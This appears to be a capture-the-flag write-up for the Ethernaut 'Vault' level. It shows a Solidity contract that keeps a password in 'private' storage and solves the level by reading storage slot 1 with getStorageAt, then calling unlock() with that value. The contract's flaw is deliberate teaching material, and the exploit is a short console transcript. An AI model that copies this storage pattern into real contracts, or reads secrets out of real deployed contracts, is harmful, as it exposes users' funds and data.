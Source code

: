 ```yaml
---
description: reading storage slot
---
```


# 8 - Vault

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

### Goal of this level

* Make the value of `locked` to be `false`

### What you should know before

* Storage\
  \-> see [here](https://youtu.be/Gg6nt3YW74o)

## Solution

<details>

<summary>Key to solve this problem 🔑</summary>

`locked` variable will be stored at slot 0,\
and `password` variable will be stored at slot 1.

You can read storage variables using `web3.eth.getStorageAt()`

</details>

We can read `slot1` and pass it as a parameter calling `unlock()`.

```javascript
> await web3.eth.getStorageAt(contract.address, 1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'

> await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')
```

Done! 😎

## Key Takeaways

* You can always read storage variables
* So make sure not to store private information!
